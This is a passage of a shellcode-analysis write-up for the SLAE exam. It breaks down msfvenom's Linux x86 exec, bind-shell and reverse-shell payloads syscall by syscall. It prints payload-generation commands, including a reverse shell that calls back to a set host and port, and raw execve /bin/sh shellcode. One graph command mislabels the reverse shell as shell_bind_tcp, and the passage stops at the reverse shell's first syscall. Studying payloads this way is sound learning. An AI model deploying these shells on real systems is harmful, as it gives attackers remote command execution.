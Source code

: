 # SLAE Exam Assignment 5 - Analyzing MSFVenom payloads

## Prologue
The fifth assignment for our SLAE certification exam is analyzing three shellcodes from the Metasploit MSFVenom tool and writing a suitable report for the same.

Almost all of us have used the Metasploit framework's `msfvenom` tool at some point and generated some payloads and used it somewhere but have you ever thought how does it function? How is it made?

If your answer is no then this is your chance to peek a glimpse at everything that happens under the hood of this powerful tool when you generate a payload.

For the purposes of this blog post I have chosen three payloads namely:
1. linux/x86/exec
1. linux/x86/shell_bind_tcp
1. linux/x86/shell_reverse_tcp

So without any further ado, here it it goes.

## Analyzing linux/x86/exec shellcode
As might be evident from the name, this is an execve shellcode and you can specify what to execute using the `CMD=` flag. Let's go ahead with `/bin/sh`.

We can generate the shellcode C-string using this command:
```
msfvenom -p linux/x86/exec CMD=/bin/sh --arch x86 -f c
```

The generated shellcode is as follows:
```
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 43 bytes
Final size of c file: 205 bytes
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x08\x00\x00\x00\x2f"
"\x62\x69\x6e\x2f\x73\x68\x00\x57\x53\x89\xe1\xcd\x80";
```

But this is basically an array of opcodes and doesn't make much sense does it eh?

Honestly it'd be good if we could look at the NASM source or better yet a visual representation of the flow right?

Fortunately enough for us there's a powerful tool known as `libemu` which allows us to do the same and more.

Assuming you have already installed the tool, let's look at how to generate a graph:
```
msfvenom -p linux/x86/exec CMD=/bin/sh --arch x86 -f raw | sctest -vvv -Ss 100000 -G linux-x86-exec.dot

dot linux-x86-exec.dot -Tpng -o linux-x86-exec.png
```

Let me paste the image here to aid in the analysis:

![linux-x86-exec](../assets/images/linux-x86-exec.png "linux-x86-exec")

Aaah! Looks pretty familiar now doesn't it? Some of you might have even analyzed it already as it's quite simple now but let's do a short analysis anyway.

First, we push 0x0b or 11 in decimal which is the syscall number for execve() into the stack and pop it into EAX which should contain the syscall number remember? Then we clear EDX register using `cwd` and push it into the stack. After that we proceed with setting up the arguments for execve() which in this case is "/bin/sh"(0x68732f = **hs/** & 0x6e69622f = **nib/**). Note that `/bin/sh` is reversed due to the little-endianess of the x86 architecture and also note that the usage of **-c** flag(0x632d) which actually reads the command from the _command_string_ rather than STDIN. Finally, we execute the execve syscall using the good old software interrupt _80h_.

## Analyzing linux/x86/shell_bind_tcp shellcode
This is a standard bind TCP shell payload(stageless) from the Metasploit framework.

We can generate the payload using the following command:
```
msfvenom -p linux/x86/shell_bind_tcp LPORT=8080 -f c
```
And by piping the raw payload to the `sctest` tool, we can also generate a graph as follows:
```
msfvenom -p linux/x86/shell_bind_tcp LPORT=8080 -f raw | sctest -vvv -Ss 100000 -G linux-x86-bindshell.dot

dot linux-x86-bindshell.dot -Tpng -o linux-x86-bindshell.png
```

Let me include the image here to aid in the analysis:

![linux-x86-bindshell](../assets/images/linux-x86-bindshell.png "linux-x86-bindshell")

Whoa! This looks bigger than I expected:( Don't get disheartened, let's start with identifying the syscalls first, rest will be taken care of automatically. 

The syscalls are:
1. socket()
2. bind()
3. listen()
4. accept()
5. dup2()
6. execve()

Brilliant! Correlating with [Blog Post 1](https://slaeryan.github.io/posts/slae-assignment1-blogpost.html) where we created our own Bind TCP shellcode, we can see that the syscalls match in the exact order. Let's move in now for a deeper analysis.

### socket syscall
We can see that `EBX` is cleared using XORing with itself. Then we clear `EAX` using `mul` instruction(clever trick to save bytes!) and set up the stack for the socket syscall arguments:

1. domain - AF_INET = 0x02 for IPv4 addressing schema
2. type - SOCK_STREAM = 0x01 for a full-duplex byte stream socket communication
3. protocol - default 0x00 for single protocol support

After that we load the syscall number for socket = 0x167 in the lower part of EAX and execute the syscall.
### bind syscall
This is the step where we push into the stack for the sockaddr_in struct arguments with:

1. The server IP address - 0x00(0.0.0.0) to enable listening on all interfaces
2. The addressing schema - 0x02 for IPv4 addressing schema
3. The listening port - 0x901f(LPORT=8080, little-endian)

Now we set the stack for the bind syscall arguments with the the socket file descriptor created in the first syscall, socklen_t addrlen = 16 and the previously created sockaddr_in struct in a reverse-order(little endianess!) and load the appropiate syscall number in `EAX` before finally executing the syscall.
### listen syscall
This step should be easy to comprehend. Two things we should note here is that how they load into `EAX` the sockfd by directly referencing a location on the stack where it's located and loading of 0x04 or SYS_LISTEN into the lower part of `EBX` before loading the appropiate syscall number in `EAX` and executing the syscall
### accept syscall
In this step we just increment `EBX` by 1 making it 0x05 which is equal to SYS_ACCEPT. Then as usual we load the syscall value in `EAX` and execute the syscall.
### dup2 syscall
We are going to duplicate into our accepted connection socket which we got back from the previous step the STDIN/0, STDOUT/1, and STDERR/2 file descriptors(fd) to make the connection interactive in this step. In the first instruction, `EBX` now has the value of `EAX` which contains the connection socket. `ECX` will be used as the counter register here. After that, the syscall value for dup2 is pushed into the stack and the syscall is executed. For the next iteration, the `ECX` is decremented and the loop continues until the Sign Flag(SF) is not set.
### execve syscall
The last step is actually all too familiar now that is executing the "/bin/sh" to enable the attackers to execute any command on the machine remotely. There is not much to discuss here as it's pretty standard.

## Analyzing linux/x86/shell_reverse_tcp shellcode
This is again a standard Reverse TCP payload(not to be confused with Meterpreter!) from the Metasploit framework.

Generation of the shellcode is as easy as:
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.104 LPORT=8080 -f c
```

And the graph as follows:
```
msfvenom -p linux/x86/shell_bind_tcp LHOST=192.168.1.104 LPORT=8080 -f raw | sctest -vvv -Ss 100000 -G linux-x86-reverseshell.dot

dot linux-x86-reverseshell.dot -Tpng -o linux-x86-reverseshell.png
```

Here is the diagram which we will analyze:

![linux-x86-reverseshell](../assets/images/linux-x86-reverseshell.png "linux-x86-reverseshell")

When that's done let's move in for the detailed analysis but not before identifying the syscalls first which are:

1. socket()
2. dup2()
3. connect()
4. execve()

We can verify this with the help of [Blog Post 2](https://slaeryan.github.io/posts/slae-assignment2-blogpost.html) where we created our own Reverse TCP shellcode.

### socket syscall

